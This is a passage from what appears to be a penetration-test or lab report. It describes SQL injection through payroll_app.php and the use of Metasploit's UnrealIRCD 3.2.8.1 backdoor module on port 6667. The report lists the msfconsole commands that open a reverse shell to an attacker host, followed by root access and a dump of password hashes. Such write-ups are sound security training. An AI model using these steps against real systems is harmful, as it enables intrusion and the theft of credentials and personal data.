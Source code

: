 Due to this breach, we were able to obtain the SQL connection credentials by exploiting payroll_app.php. This allowed us to perform SQL injection and access sensitive database tables with customer and employee information.

## 4.4. Accessing open port 6667 IRC

We previously discovered this vulnerability using nmap and Nessus, Metasploit was then used to run a search of th unrealIRCD module used to exploit open port 6667, the following is a description of the UnrealIRCD 3.2.8.1 Backdoor Command Execution.  
  
*“This module exploits a malicious backdoor that was added to the Unreal IRCD 3.2.8.1 download archive. This backdoor was present in the Unreal3.2.8.1.tar.gz archive between November 2009 and June 12th 2010”*

(Rapid7,n.d.). *  
  
**We performed this exploit by using these commands to open a reverse shell:**
```
1.  Open Kali Linux Terminal and open Metasploit:

2.  msfconsole

3.  Setting up UnrealIRCD 3.2.8.1 Backdoor Command Execution module:

4.  search unrealircd

5.  use 0

6.  set Rhost 192.168.56.200

7.  Setting up relevant payload options to get reverse shell access:

8.  show payloads

9.  set payload 7

10. set Lhost 192.168.56.101

11. set Lport 4444

12. Exploit the system:

13. Exploit
```
![|inline](https://s2.loli.net/2023/12/10/3sCaPNl1rJwokeZ.png)

This breach allowed us to gain root access and we were able to obtain a hash dump of all employee passwords. After gaining root privileges we were able access other sensitive information such as emails and various notes left by employees.

## 4.4. Hash dump and password cracking
